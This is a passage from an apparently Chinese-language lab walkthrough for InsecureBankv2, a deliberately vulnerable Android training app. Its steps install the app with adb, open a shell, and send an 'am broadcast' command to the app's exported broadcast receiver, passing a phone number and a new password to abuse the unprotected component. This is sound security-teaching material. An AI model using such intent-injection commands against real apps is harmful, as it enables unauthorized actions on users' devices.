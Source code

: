 <img src="image\先前声明的参数二.png" />

10.运行Android仿真器后，将InsecureBankv2.apk文件复制到Android SDK中的“platform-tools”文件夹，然后使用以下命令将下载的Android- insecurebankv2应用程序推送到仿真器。

```
adb install InsecureBankv2.apk
```

11.在模拟器中启动安装的InsecureBankv2应用程序。

12.回到“platform-tools”文件夹，输入以下命令:

```
adb shell
```

13.在shell中输入以下命令:

```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 -es newpass Dinesh@123!
```
